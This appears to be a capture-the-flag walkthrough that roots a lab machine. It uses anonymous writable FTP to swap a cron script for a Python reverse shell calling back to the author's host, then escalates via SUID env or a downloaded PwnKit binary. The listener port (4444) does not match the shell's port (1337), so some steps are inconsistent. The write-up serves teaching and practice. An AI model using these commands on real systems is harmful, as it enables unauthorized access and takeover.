

# Recon

I started by scanning the target with nmap to identify open ports, running services, and their versions.

```
❯ nmap -sV -sC 10.48.171.86
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 01:16 +0600
Nmap scan report for 10.48.171.86
Host is up (0.044s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.161.227
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu
```

The most interesting result was the FTP service on port `21`. Nmap also showed that **anonymous FTP login was enabled**, and the `scripts` directory was writable.

That immediately made FTP worth investigating.

# FTP Access

I connected to the FTP service:

```
ftp 10.48.171.86
```

Anonymous access was allowed, so I logged in using the anonymous account and inspected the available files and directories.

The writable `scripts` directory was particularly interesting because files placed there could potentially be processed by a scheduled task on the target.

## Enumerating the FTP Files



I downloaded the relevant files from the FTP server and inspected them locally.

During the enumeration, I identified a script named `clean.sh` that was associated with a cron job.

Because the script was writable through FTP and executed automatically by the system, this provided a potential path toward command execution.

# Initial Foothold — Cron Job

The `clean.sh` script was modified in the authorized lab environment to execute a reverse shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.161.227",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

The IP address represents my lab machine, where I would receive the incoming connection.

## Uploading the Modified Script

I connected to the FTP server again and uploaded the modified script:

```
put clean.sh
```

The goal was for the cron job to execute the modified script automatically.

# Catching the Reverse Shell

Before waiting for the cron job to execute, I started a Netcat listener on my machine:

```
nc -nlvp 4444
```

After the cron job executed `clean.sh`, the reverse shell connected back to my listener.

I then verified the shell and checked the available files:

```
ls
cat user.txt
```


This confirmed that I had obtained the initial foothold and could retrieve the user flag.

# Privilege escalation

Check for SUID binaries:

```
find / -user root -perm -u=s 2>/dev/null
```

If `/usr/bin/pkexec` is present, you can attempt PwnKit-based escalation.

### Option A: Using env

```
/usr/bin/env /bin/sh -p
```

### Option B: Download and run PwnKit exploit

Host the exploit locally:

```
python3 -m http.server 8080
```

Download it on the target:

```
wget http://192.168.252.3:8080/PwnKit
chmod +x PwnKit
./PwnKit
```

> **Lab note:** The presence of `pkexec` alone does not prove that the system is vulnerable. The installed package version and configuration should be verified before attempting exploitation.
>

## Root Access

After successfully completing the privilege-escalation step in the lab, I verified my privileges:

```
whoami
```

The result confirmed that I had root-level access.

I then accessed the root directory:

```
cd /root
ls
```

Finally, I retrieved the root flag:

```
cat root.txt
```


# Summary

1. Performed service enumeration using Nmap.
2. Identified FTP, SSH, and Samba services running on the target.
3. Discovered that anonymous FTP access was enabled.
4. Identified a writable `scripts` directory through FTP.
5. Downloaded and inspected the available files.
6. Discovered the `clean.sh` script associated with a cron job.
7. Modified `clean.sh` to establish a reverse shell in the authorized lab environment.
8. Uploaded the modified script through FTP.
9. Started a Netcat listener and obtained an initial shell.
10. Retrieved the `user.txt` flag.
11. Enumerated SUID binaries for potential privilege-escalation vectors.
12. Identified `/usr/bin/pkexec` and investigated its version and configuration.
13. Successfully escalated privileges to root and retrieved the `root.txt` flag.
